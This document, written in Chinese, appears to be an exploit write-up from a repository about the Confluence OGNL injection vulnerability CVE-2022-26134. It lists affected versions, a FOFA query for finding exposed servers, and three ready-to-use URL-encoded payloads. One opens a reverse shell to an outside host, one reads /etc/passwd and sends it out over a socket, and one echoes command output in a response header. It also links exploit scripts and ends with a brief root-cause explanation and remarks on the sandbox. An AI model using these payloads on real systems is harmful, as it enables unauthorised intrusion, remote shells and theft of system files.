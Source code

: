 # Confluence OGNL表达式注入命令执行漏洞（CVE-2022-26134）

## 利用条件：
- Confluence Server and Data Center >= 1.3.0、< 7.4.17、 < 7.13.7、 < 7.14.3、< 7.15.2、< 7.16.4、< 7.17.4、< 7.18.1

## 资产收集：
  fofa:`app="ATLASSIAN-Confluence"`

#### POC
- 反弹shell
```shell
/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/1.1.1.1/8888%200%3E%261%27%29.start%28%29%22%29%7D/
```
![](img/shellPOC.png)
[利用脚本](file/ConfluenceRCE_nc.py)
- 读取文件(/etc/passwd)
```shell
/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22var%20data%20%3D%20new%20java.lang.String%28java.nio.file.Files.readAllBytes%28java.nio.file.Paths.get%28%27/etc/passwd%27%29%29%29%3Bvar%20sock%20%3D%20new%20java.net.Socket%28%271.1.1.1%27%2C%208888%29%3B%20var%20output%20%3D%20new%20java.io.BufferedWriter%28new%20java.io.OutputStreamWriter%28sock.getOutputStream%28%29%29%29%3B%20output.write%28data%29%3B%20output.flush%28%29%3B%20sock.close%28%29%3B%22%29%7D/
```
![](img/readfilePOC.png)
- v7.15版本以下Response回显执行结果
```shell
/%24%7B%28%23a%3D%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%22id%22%29.getInputStream%28%29%2C%22utf-8%22%29%29.%28%40com.opensymphony.webwork.ServletActionContext%40getResponse%28%29.setHeader%28%22X-Cmd-Response%22%2C%23a%29%29%7D/
```
![](img/responsePOC.png)
[利用脚本](file/ConfluenceRCE_Response.py)

## 漏洞原因
Confluence 基于 Struts 架构，url请求访问，经过一系列 `Filter` 处理后，将进入Servlet 的分发器 `ConfluenceServletDispatcher`  
1. 调用 `ConfluenceServletDispatcher`的`serviceAction` 函数.
2. 调用 `DefaultActionProxy` 的 `execute` 函数.
3. Struts Interceptor 拦截器对象对请求进行处理,迭代循环调用`DefaultActionInvocation#invoke`
4. 调用 `ActionChainResult#execute`
5. 调用 `translateVariables` 函数，传入参数 `namespace`，函数功能为 `OGNL` 表达式解析⚠️
6. `namespace` 取值为请求 `servletPath` 最后一个 `/` 之前的部分。⚠️
7. 修改URL成功触发 OGNL 表达式注入。⚠️

## 沙箱绕过
v7.15 系列开始，Confluence 在 OGNL 表达式解析时加入了沙箱设置，`isSafeExpression`函数对参数进行检查。
`java.lang.Runtime.getRuntime().exec()`函数在`unsafePropertyNames`黑名单里，所以v7.15系列以后无法使用exec()方法的poc

参考链接：https://unsafe.sh/go-113877.html  
